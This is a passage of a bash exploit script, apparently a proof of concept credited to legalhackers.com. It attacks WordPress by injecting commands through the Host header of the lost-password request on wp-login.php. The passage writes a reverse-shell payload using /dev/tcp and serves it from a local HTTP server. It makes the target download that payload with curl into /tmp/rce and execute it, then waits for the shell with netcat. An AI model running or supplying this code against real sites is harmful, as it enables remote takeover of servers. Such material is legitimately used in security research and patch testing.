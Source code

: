 	ICAgICAgICAgICAgICAgICAgICAbWzk0bXwbWzBtChtbOTRtKyAtLT18G1swbSAgICAgICAgICBE
	aXNjb3ZlcmVkICYgQ29kZWQgQnkgICAgICAgICAgICAgICAgG1s5NG18G1swbQobWzk0bSsgLS09
	fBtbMG0gICAgICAgICAgICAgICAbWzk0bURhd2lkIEdvbHVuc2tpG1swbSAgICAgICAgICAgICAg
	ICAgIBtbOTRtfBtbMG0gChtbOTRtKyAtLT18G1swbSAgICAgICAgIBtbOTRtaHR0cHM6Ly9sZWdh
	bGhhY2tlcnMuY29tG1swbSAgICAgICAgICAgICAgG1s5NG18G1swbSAKG1s5NG0rIC0tPXwbWzBt
	ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAbWzk0bXwbWzBt
	ChtbOTRtKyAtLT18G1swbSAiV2l0aCBHcmVhdCBQb3dlciBDb21lcyBHcmVhdCBSZXNwb25zaWJp
	bGl0eSIgG1s5NG18G1swbSAKG1s5NG0rIC0tPXwbWzBtICAgICAgICAqIEZvciB0ZXN0aW5nIHB1
	cnBvc2VzIG9ubHkgKiAgICAgICAgICAbWzk0bXwbWzBtIAoKCg=="
	echo "$intro"  | base64 -d
	echo "$intro2" | base64 -d
	
	if [ "$#" -ne 1 ]; then
	echo -e "Usage:\n$0 target-wordpress-url\n"
	exit 1
	fi
	target="$1"
	echo -ne "\e[91m[*]\033[0m"
	read -p " Sure you want to get a shell on the target '$target' ? [y/N] " choice
	echo
	
	
	if [ "$choice" == "y" ]; then
	
	echo -e "\e[92m[*]\033[0m Guess I can't argue with that... Let's get started...\n"
	echo -e "\e[92m[+]\033[0m Connected to the target"
	
	# Serve payload/bash script on :80
	RCE_exec_cmd="(sleep 3s && nohup bash -i >/dev/tcp/$rev_host/1337 0<&1 2>&1) &"
	echo "$RCE_exec_cmd" > rce.txt
	python -mSimpleHTTPServer 80 2>/dev/null >&2 &
	hpid=$!
	
	# Save payload on the target in /tmp/rce
	cmd="/usr/bin/curl -o/tmp/rce $rev_host/rce.txt"
	prep_host_header "$cmd"
	curl -H"Host: $host_header" -s -d 'user_login=admin&wp-submit=Get+New+Password' $target/wp-login.php?action=lostpassword
	echo -e "\n\e[92m[+]\e[0m Payload sent successfully"
	
	# Execute payload (RCE_exec_cmd) on the target /bin/bash /tmp/rce
	cmd="/bin/bash /tmp/rce"
	prep_host_header "$cmd"
	curl -H"Host: $host_header" -d 'user_login=admin&wp-submit=Get+New+Password' $target/wp-login.php?action=lostpassword &
	echo -e "\n\e[92m[+]\033[0m Payload executed!"
	
	echo -e "\n\e[92m[*]\033[0m Waiting for the target to send us a \e[94mreverse shell\e[0m...\n"
	nc -vv -l 1337
	echo
	else
	echo -e "\e[92m[+]\033[0m Responsible choice ;) Exiting.\n"
	exit 0
	